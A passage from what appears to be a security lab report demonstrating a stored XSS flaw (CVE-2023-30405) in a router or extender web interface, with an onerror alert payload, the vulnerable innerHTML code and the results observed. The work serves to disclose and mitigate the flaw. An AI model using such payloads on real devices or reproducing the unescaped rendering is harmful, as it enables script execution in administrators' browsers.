            To demonstrate the issue, we used a payload that provides both visual confirmation and JavaScript execution:

\begin{lstlisting}[language=HTML]
<h1 style=color:red>XSS_OK</h1><img src=x onerror=alert(1)>
\end{lstlisting}

            This payload is useful for two reasons. The \emph{h1} tag gives an immediate visual indication that HTML has been interpreted, while the \emph{onerror} handler triggers JavaScript execution through \emph{alert(1)}. We chose this payload instead of a plain \emph{\textless script\textgreater} tag because scripts inserted through \emph{innerHTML} are not always executed by modern browsers, while event handlers such
            as \emph{onerror} are a reliable way to demonstrate XSS execution.
            \\
            The vulnerable page used for the demonstration was \emph{home.htm}. In this page, the SSID value is inserted into the DOM using \emph{innerHTML}:

\begin{lstlisting}[language=xml]
var ssid = '<h1 style=color:red>XSS_OK</h1><img src=x onerror=alert(1)>';

function init() {
    var target = document.getElementById("ssidValue");
    if (target) {
        target.innerHTML = ssid;
    }
}
\end{lstlisting}

            The vulnerable page was reached at:

\begin{lstlisting}[language=bash]
http://192.168.10.253/home.htm
\end{lstlisting}

            When the page is opened, the browser parses the SSID as HTML instead of displaying it as plain text. As shown in Figure~\ref{fig:alert}, the injected image triggers the JavaScript \emph{alert(1)}.

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/3.9-xss_home_alert.png}
      \caption{Alert message}
      \label{fig:alert}
  \end{figure}

            After closing the alert, the visual part of the payload remains rendered inside the page: the \emph{XSS\_OK} marker appears as a red heading, as shown in Figure~\ref{fig:xss}. This confirms that the injected SSID is interpreted as part of the page structure.

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/3.10-xss_home_alert.png}
      \caption{Injected SSID rendered as HTML in the vulnerable page}
      \label{fig:xss}
  \end{figure}
                        
            This demonstrates the impact of CVE-2023-30405 in a directly observable way: the attacker-controlled value changes the DOM and triggers script execution in the administrator's browser.
            \\
            This behavior is especially relevant for a router or extender web interface because configuration values are frequently displayed back to the administrator after being saved. If one of those values is attacker-controlled and rendered without escaping, the web interface becomes a vehicle for client-side code execution. 
            \\
            Together with the previous RCE result, this completes the exploitation phase. The next chapter describes the mitigations applied to the identified issues, including the binary patch used to disable the RCE handler and the rendering change used to prevent XSS execution.

              
